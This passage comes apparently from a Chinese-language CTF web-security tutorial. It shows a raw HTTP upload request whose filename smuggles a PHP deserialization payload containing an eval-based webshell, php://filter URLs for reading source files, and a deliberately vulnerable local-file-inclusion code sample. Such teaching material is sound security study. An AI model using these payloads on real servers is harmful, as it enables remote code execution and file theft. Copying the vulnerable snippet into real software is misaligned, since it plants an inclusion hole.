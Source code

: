 最后 Session 就会保存上传的文件名。如果没有提供写入 Session 的地方，可以用这种方法。POST 请求的数据包：

```powershell
POST / HTTP/1.1
Host: web.jarvisoj.com:32784
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypN9LkEc0KCMj7TfC
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3208.0 Safari/537.36
Cookie: PHPSESSID=jfdu23je5jlu43sfgc3akp3037
Content-Length: 302

------WebKitFormBoundarypN9LkEc0KCMj7TfC
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

123
------WebKitFormBoundarypN9LkEc0KCMj7TfC
Content-Disposition: form-data; name="file"; filename="|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:39:\"echo \"waterfood\"; eval($_REQUEST[\"v\"]);\";}"
Content-Type: text/plain

123
------WebKitFormBoundarypN9LkEc0KCMj7TfC--
```

# 12. 文件包含

这种 url 很容易就能想到可能是文件包含或者伪协议读取

```powershell
http://10.2.1.1:20770/index.php?page=upload
http://10.2.1.1:20770/index.php?page=php://filter/read=convert.base64-encode/resource=upload
```

常见的导致文件包含的函数有

 - include()
 - include_once()
 - require()
 - require_once()
 - fopen()
 - readfile()

当 PHP 包含一个文件时，会将该文件当做 PHP 代码执行，而不会在意文件时什么类型。
## 本地文件包含

本地文件包含，Local File Inclusion，LFI。

```php
<?php
$file = $_GET['file'];
if (file_exists('/home/wwwrun/'.$file.'.php')) {
  include '/home/wwwrun/'.$file.'.php';
}
?>
```
